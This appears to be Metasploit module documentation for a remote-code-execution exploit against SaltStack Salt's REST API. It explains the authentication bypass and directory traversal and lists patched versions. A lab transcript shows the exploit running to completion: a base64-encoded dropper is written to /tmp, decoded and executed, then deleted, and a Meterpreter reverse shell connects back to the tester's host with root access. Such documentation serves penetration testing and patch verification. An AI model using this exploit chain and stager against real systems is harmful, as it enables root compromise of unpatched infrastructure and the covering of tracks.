 ## Vulnerable Application

### Description

This module leverages an authentication bypass and directory traversal
vulnerabilities in Saltstack Salt's REST API to execute commands remotely on
the `master` as the root user.

Every 60 seconds, `salt-master` service performs a maintenance process check
that reloads and executes all the `grains` on the `master`, including [custom
grain
modules](https://docs.saltproject.io/en/latest/topics/grains/#writing-grains)
in the Extension Module directory (see `EXTMODSDIR` [option](#extmodsdir)). So,
this module simply creates a Python script at this location and waits for it to
be executed. The time interval is set to 60 seconds by default but can be
changed in the `master` configuration file with the `loop_interval` option.
Note that, if an administrator executes commands locally on the `master`, the
maintenance process check will also be performed.

It has been fixed in the following installation packages: 3002.5, 3001.6 and
3000.8

Also, a patch is available for the following versions: 3002.2, 3001.4, 3000.6,
2019.2.8, 2019.2.5, 2018.3.5, 2017.7.8, 2016.11.10, 2016.11.6, 2016.11.5,
2016.11.3, 2016.3.8, 2016.3.6, 2016.3.4, 2015.8.13 and 2015.8.10

This module has been tested successfully against versions 3001.4, 3002 and
3002.2 on Ubuntu 18.04

### Setup

Follow the [installation steps](https://repo.saltstack.com/#ubuntu) for Ubuntu
(or choose another OS from the same page) and the REST API
[setup instructions](https://docs.saltproject.io/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html).

## Verification Steps

1. Install the application (follow [Setup](#setup))
1. Start msfconsole
1. Do: `use exploit/linux/http/saltstack_salt_wheel_async_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `run`
1. You should get a Meterpreter session.

## Targets

### 0 (Unix Command)

This executes a Unix command.

### 1 (Linux Dropper)

This uses a Linux dropper to execute code.

## Options

### TARGETURI

The base path of the Saltstack Salt application, which is set to `/` by
default.

### EXTMODSDIR

The Extension Module directory ("extmods") for the `master`. On older versions,
this directory was `/var/cache/salt/extmods` by default. It has been moved to
`/var/cache/salt/master/extmods` from version `2016.3.0` and is the default
option value. Note that this path can be customized in the `master`
configuration file with the `extension_modules` option. The Python file will be
placed in the `grains` directory under this path. Salt automatically creates
the sub-directories if they don't exist.

## Scenarios

### SaltStack Salt 3002.2 on Ubuntu 18.04

```
msf > use exploit/linux/http/saltstack_salt_wheel_async_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/saltstack_salt_wheel_async_rce) > set rhosts 192.168.144.188
rhosts => 192.168.144.188
msf exploit(linux/http/saltstack_salt_wheel_async_rce) > set lhost 192.168.144.1
lhost => 192.168.144.1
msf exploit(linux/http/saltstack_salt_wheel_async_rce) > set verbose true
verbose => true
msf exploit(linux/http/saltstack_salt_wheel_async_rce) > options

Module options (exploit/linux/http/saltstack_salt_wheel_async_rce):

   Name        Current Setting                 Required  Description
   ----        ---------------                 --------  -----------
   EXTMODSDIR  /var/cache/salt/master/extmods  yes       The Extension Module Directory ("extmods")
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.144.188                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       8000                            yes       The target port (TCP)
   SSL         true                            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI   /                               yes       Base path
   URIPATH                                     no        The URI to use for this exploit (default is random)
   VHOST                                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/http/saltstack_salt_wheel_async_rce) > run

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Salt API responded as expected.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/WlZHG.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ykmTR' < '/tmp/WlZHG.b64' ; chmod +x '/tmp/ykmTR' ; '/tmp/ykmTR' & sleep 2 ; rm -f '/tmp/ykmTR' ; rm -f '/tmp/WlZHG.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/WlZHG.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ykmTR' < '/tmp/WlZHG.b64' ; chmod +x '/tmp/ykmTR' ; '/tmp/ykmTR' & sleep 2 ; rm -f '/tmp/ykmTR' ; rm -f '/tmp/WlZHG.b64'
[*] Waiting up to 90 seconds for the Salt maintenance process check to trigger the payload (WfsDelay option).
[*] Command Stager progress - 102.16% done (851/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.144.188
[+] Deleted /var/cache/salt/master/extmods/grains/lUhZUGix.py
[+] Deleted /var/cache/salt/master/extmods/grains/__pycache__/lUhZUGix.cpython-36.pyc
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.188:42792) at 2021-03-26 14:58:16 +0100

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.144.188
OS           : Ubuntu 18.04 (Linux 5.4.0-70-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
